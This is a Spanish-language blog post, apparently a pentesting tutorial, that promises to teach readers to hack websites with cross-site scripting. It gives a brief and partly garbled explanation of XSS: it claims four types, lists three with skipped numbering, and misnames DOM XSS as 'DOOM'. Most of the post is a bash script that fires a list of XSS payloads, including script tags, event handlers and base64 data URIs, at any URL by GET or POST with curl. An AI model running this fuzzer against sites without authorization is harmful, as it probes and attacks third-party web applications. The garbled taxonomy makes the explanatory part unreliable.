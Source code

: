 ```yaml
---
title: HACKEA SITIOS WEB  CON  UN (XSS) - (Cross-Site Scripting) 💀
author: IRVING  ST (ak) Comandre-ex
date: 2023-01-5  12:00
categories: [PENTESTING WEB,FUZZING,BASH,PYTHON,SCRIPTING,PROGRAMACION,VULNS]
tags: [PENTESTING WEB,FUZZING,BASH,PYTHON,SCRIPTING,PROGRAMACION,VULNS]
---
```


> Github :  [https://github.com/comandre-ex](https://github.com/comandre-ex) - Twitter  :  [https://twitter.com/comandre-ex](https://twitter.com/comandre-ex)

###  La razon  por  la cual decidi crear  este articulo  es  que  aprenda  a explotar   un  (`Cross-Site Scripting`)  en  paginas `WEB` entiendas  que es  un (`Cross-Site Scripting`), puedas crear  scripts  para la  automatizacion de  un  (`Cross-Site Scripting`)
#### Primero  definamos   que es (`XSS`) o (`Cross-Site Scripting`) - El (`Cross-Site Scripting`) es un tipo de vulnerabilidad  que  permite  injectar  codigo similar a  lo  que es es  la (`SQLi`) o (`SQL  Injection`)  aplicación web que permite a un atacante injectar y  ejecutar   código malicioso en una pagina web entre  estos  e s posible   injectar codigo  (`Javascript,HTML,CSS`).

##

### Existen cuatro tipos  de  (`Cross-Site Scripting`)

>1. Cross-site scripting  **REFLEJADO** 
>3. Cross-site scripting  **DOOM**
>4. Cross-site scripting  **BLINDADO**

Os  comparto  este script  en bash  para  efectuar un XSS  usando el  comando curl


     
      #!/bin/bash
 
      # Verifica que se haya proporcionado una URL y un método HTTP como argumento
     if [ -z "$1" ] || [ -z "$2" ]; then
        echo "Se deben proporcionar una URL y un método HTTP como argumentos"
        exit 1
     fi

     url=$1
     method=$2

     # Crea una lista con  etiquetas de inyección XSS
     xss_tags=(
      "<script>alert('XSS')</script>"
      "<img src='x' onerror='alert(\"XSS\")'>"
      "<div style='color: expression(alert(\"XSS\"));'>"
      "<svg><script>alert(1)</script></svg>"
      "<marquee><h1>XSS</h1></marquee>"
      "<body onload=alert(1)>"
      "<object data='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<iframe src='javascript:alert(\"XSS\")'>"
      "<link rel='import' href='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<embed src='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<math><a xlink:href='data:x,<script>alert(1)</script>'>CLICKME</a></math>"
      "<form><button formaction='javascript:alert(\"XSS\")'>XSS</button></form>"
      "<isindex type=image src=1 onerror=alert(1)>"
      "<frame src='javascript:alert(\"XSS\")'>"
      "<b><svg><script>alert(1)></script></svg></b>"
      "<details open ontoggle=alert(1)><summary>XSS</summary></details>"
      "<keygen onfocus=alert(1)>"
      "<audio src='data:audio/x;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<video src='data:video/x;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      )
      # Realiza una solicitud HTTP utilizando curl.
     for tag in "${xss_tags[@]}"; do
        echo "Probando etiqueta: $tag"
        if [ "$method" = "GET" ]; then
        # Envía la solicitud GET y muestra el código de estado HTTP de la respuesta
        status_code=$(curl -s -o /dev/null -w "%{http_code}" "$url?input=$tag")
        echo "Código de estado: $status_code"
        elif [ "$method" = "POST" ]; then
         # Envía la solicitud POST y muestra el código de estado HTTP de la respuesta
         status_code=$(curl -s -o /dev/null -w "%{http_code}" -X POST "$url" -d "input=$tag")
         echo "Código de estado: $status_code"
        else
          echo "Método HTTP no válido"
          exit 1
        fi
     done
     
